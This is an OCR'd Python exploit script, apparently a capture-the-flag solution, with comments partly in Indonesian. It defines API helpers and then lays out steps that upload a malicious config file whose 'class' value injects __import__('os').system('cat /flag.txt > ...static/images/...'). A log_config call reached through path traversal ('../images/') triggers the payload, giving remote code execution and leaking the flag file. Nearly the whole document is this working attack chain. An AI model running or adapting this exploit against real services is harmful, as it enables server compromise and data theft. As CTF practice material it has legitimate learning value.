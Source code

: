 ```python
        r = self.requests
        url = self.url
        req = r.post(
            f'{url}/api/upload',
            files={
                'file': open(file, 'rb')
            },
            data={
                'label': filename
            }
        )
        return req.text

    def log_config(self, filename):
        r = self.requests
        url = self.url
        req = r.post(
            f'{url}/api/log_config',
            json={
                'filename': filename,
            },
        )
        return req.text

    def run_command(self, command):
        r = self.requests
        url = self.url
        req = r.post(
            f'{url}/api/run_command',
            json={
                'filename': command,
            },
        )
        return req.text

a = API()

user = 'dimas123'

# step 1
# print(a.register(user, 'dimas123'))
# print(a.login(user, 'dimas123'))
# print(a.upload(file='empty', filename='flag.txt'))
# flag_txt = json.loads(a.gallery())['message'][0]
# print(flag_txt)

# step 2: change the directory in attacker.conf with flag_txt
'''
contoh:
class=__import__('os').system('cat /flag.txt > /app/application/static/images/{change here}')
'''

# step 3
# print(a.login(user, 'dimas123'))
# print(a.upload(file='attacker.conf', filename='attacker.conf'))
# mal_conf = json.loads(a.gallery())['message'][1]
# print(mal_conf)

# step 4
# print(a.login(user, 'dimas123'))
# mal_conf = json.loads(a.gallery())['message'][1]
# flag_txt = json.loads(a.gallery())['message'][0]
# print(a.log_config(filename=f"../images/{mal_conf}"))
```